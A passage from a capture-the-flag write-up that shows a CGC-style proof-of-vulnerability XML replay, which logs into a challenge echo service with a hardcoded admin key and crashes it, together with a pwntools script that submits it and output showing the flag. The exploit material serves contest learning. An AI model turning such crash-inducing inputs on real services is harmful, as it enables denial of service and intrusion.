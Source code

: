 ``` 
<?xml version="1.0" standalone="no" ?>
<pov> <cbid>service</cbid>
<replay>
<read><delim>x0a</delim><match><data>--------------x0a</data></match></read>
<read><delim>x0a</delim><match><data>- Simple Echo System -x0a</data></match></read>
<read><delim>x0a</delim><match><data>--------------x0a</data></match></read>
<read><delim>x0a</delim><match><data>What is your name?x0a</data></match></read>
<read><delim> </delim><match><data>name: </data></match></read>
<write><data>ADMINx0a</data></write>
<read><delim>: </delim><match><data>+ Gimme a key : </data></match></read>
<write><data>SHOW_ME_THE_M0N3Y_TURN_UPx0a</data></write>
<read><delim>x0a</delim><match><data>Welcome Admin :)x0a</data></match></read>
<read><delim>: </delim><match><data>: </data></match></read>
<write><data>CKx0a</data>
</write>
</replay> </pov> 
```

The submit it with a simple Python submitter: 
```
#!/usr/bin/python

from pwn import *

powfile = "pov.xml"
host, port = "cgc.cykor.kr", 34523
conn = remote(host,port)
print conn.recvline()
conn.sendline("XML")
powdata = open(powfile,'rb').read()
print conn.recvline()
conn.sendline(str(len(powdata)))
print conn.recvline()
conn.sendline(powdata)
conn.interactive()

```

And we get the flag! 

```
[+] Opening connection to cgc.cykor.kr on port 34523: Done
What type of your PoV? (BIN / XML) [*] POW: pov.xml
[*] POW len: 1018
How many bytes is your XML?
Ok.... send it 
[*] Switching to interactive mode
Successfully received
# package: binutils-cgc-i386: (installed: True) version: 2.24-9735-cfe-rc5
...
# tests passed: 11
# tests failed: 0
# total tests passed: 11
# total tests failed: 0
# polls passed: 1
# polls failed: 0
ok - process cored as expected: (signal 11: SIGSEGV)
The flag is: Wh0ooooo you, are you talking me?
[*] Got EOF while reading in interactive
$

```
